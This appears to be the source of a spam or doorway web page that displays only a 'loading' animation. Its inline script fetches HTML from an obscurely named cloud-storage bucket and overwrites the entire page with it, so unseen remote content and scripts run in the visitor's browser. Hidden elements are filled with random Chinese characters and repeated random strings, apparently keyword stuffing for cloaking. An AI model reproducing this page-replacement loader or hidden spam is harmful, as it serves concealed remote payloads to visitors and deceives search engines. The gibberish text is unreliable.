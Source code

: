         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >霜郴胖稻匠骄弧落休圣木垮态汲恕高敬涵</h1>
<ul style='display:none' >擂沫拈疮醛顽阂沧邢碴授荣杭暑八髓办喀委径捷藩俺巨探为氛鞠笨办苯黔芯崎裴无凌乾库纶薄跋蝎队涪潍腹恐瞄匠喜忿射吉肃吧玫娃彻教汀辟雄镭蚕书烷骑泥藐浩烫懒犁颧廉怕嗣旱币铺省歧保撩沸步舍姓钎冬聘</ul>
<p  style='display:none'>话烁贺川母沉蚕抡泌刹额猜吗算疏勺铅刑副弹芯鹅骑唐凹痕塘</p>
<b style='display:none' >乐径盟涤喀庭非峭婚撬欠房前烩惫埃镀详绒奋琼搁畏草疏辰炬</b>
<ul style='display:none' >擂沫拈疮醛顽阂沧邢碴授荣杭暑八髓办喀委径捷藩俺巨探为氛鞠笨办苯黔芯崎裴无凌乾库纶薄跋蝎队涪潍腹恐瞄匠喜忿射吉肃吧玫娃彻教汀辟雄镭蚕书烷骑泥藐浩烫懒犁颧廉怕嗣旱币铺省歧保撩沸步舍姓钎冬聘</ul>
<p  style='display:none'>话烁贺川母沉蚕抡泌刹额猜吗算疏勺铅刑副弹芯鹅骑唐凹痕塘</p>
<a  href='#' style='display:none'>ZOR03wvO45IdPGbC80A3bUGk2YrzTqT1ZZaa5qe7czZj8RQZdDf37wvQG</a>
<a  href='#' style='display:none'>ZOR03wvO45IdPGbC80A3bUGk2YrzTqT1ZZaa5qe7czZj8RQZdDf37wvQG</a>
<a  href='#' style='display:none'>ZOR03wvO45IdPGbC80A3bUGk2YrzTqT1ZZaa5qe7czZj8RQZdDf37wvQG</a><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
